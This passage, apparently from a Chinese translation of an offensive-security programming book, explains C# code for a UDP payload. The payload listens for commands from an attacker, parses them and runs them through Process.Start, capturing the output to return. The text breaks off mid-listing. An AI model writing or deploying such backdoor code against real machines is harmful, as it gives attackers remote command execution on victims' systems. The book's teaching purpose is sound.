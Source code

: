主 while 循环

如列表 4-11 所示，我们从一个 while 循环开始，该循环会持续运行，直到从攻击者接收到一个空字符串。

> while (true)
> 
> {
> 
> input = listener.➊Receive(ref localEP);
> 
> cmd = ➋Encoding.ASCII.GetString(input, 0, input.Length);
> 
> if (string.IsNullOrEmpty(cmd))
> 
> {
> 
> listener.Close();
> 
> return;
> 
> }
> 
> if (string.IsNullOrWhiteSpace(cmd))
> 
> continue;
> 
> string[] split = cmd.Trim().➌Split(' ');
> 
> string filename = split.➍First();
> 
> string arg = string.➎Join(" ", split.Skip(1));
> 
> string results = string.Empty; 列表 4-11：监听 UDP 广播并从参数中解析命令

在这个 while 循环中，我们调用 listener.Receive()，传入我们实例化的 IPEndPoint 类。接收到来自攻击者的数据后，Receive() ➊会将 localEP 的 Address 属性填充为攻击主机的 IP 地址和其他连接信息，以便我们稍后在响应时使用这些数据。Receive()还会阻塞有效载荷的执行，直到接收到一个 UDP 广播。

一旦收到广播，Encoding.ASCII.GetString() ➋ 将数据转换为 ASCII 字符串。如果字符串为 null 或为空，我们将跳出 while 循环，让有效载荷进程完成并退出。如果字符串仅包含空格，我们将使用 continue 重新启动循环，等待接收来自攻击者的新命令。确保命令不是空字符串或仅包含空格后，我们会按照空格 ➌ 将命令分割（与 TCP 有效载荷中相同），然后从分割后的字符串数组中提取命令 ➍。接着我们通过连接分割数组中的所有元素（除了第一个元素）来创建参数字符串 ➎。

执行命令并返回结果给发送者

现在，我们可以执行命令并通过 UDP 广播将结果返回给发送者，如 示例 4-12 所示。

> try
> 
> {
> 
> Process prc = new Process();
> 
> prc.StartInfo = new ProcessStartInfo();
> 
> prc.StartInfo.FileName = filename;
> 
> prc.StartInfo.Arguments = arg;
> 
> prc.StartInfo.UseShellExecute = false;
> 
> prc.StartInfo.RedirectStandardOutput = true;
> 
> prc.Start();
> 
> prc.WaitForExit();
> 
> results = prc.StandardOutput.➊ReadToEnd();
> 